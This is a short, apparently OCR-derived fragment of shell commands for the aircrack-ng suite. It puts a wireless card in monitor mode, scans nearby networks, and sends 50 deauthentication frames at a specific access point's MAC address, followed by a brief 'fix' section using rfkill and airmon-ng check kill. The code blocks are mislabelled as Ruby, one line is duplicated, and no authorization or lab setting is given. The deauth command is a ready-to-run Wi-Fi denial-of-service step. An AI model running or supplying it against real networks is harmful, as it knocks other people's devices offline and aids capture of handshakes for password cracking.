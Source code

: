 ```ruby
sudo airmon-ng start wlp0s20f3
```

~~~ruby
sudo airodump-ng wlp0s20f3mon
~~~

~~~ruby
sudo iwconfig wlp0s20f3mon channel 10
~~~

~~~ruby
sudo aireplay-ng --deauth 50 -a E4:C3:2A:65:F9:7E wlp0s20f3mon
~~~


### ✅ Step-by-Step Fix:

#### Step 1: Unblock the Wi-Fi adapter
~~~ruby
sudo rfkill unblock wifi
~~~

~~~ruby
sudo rfkill unblock wifi
~~~

~~~ruby
sudo airmon-ng check kill
~~~

~~~
sudo airmon-ng start wlp0s20f3
~~~

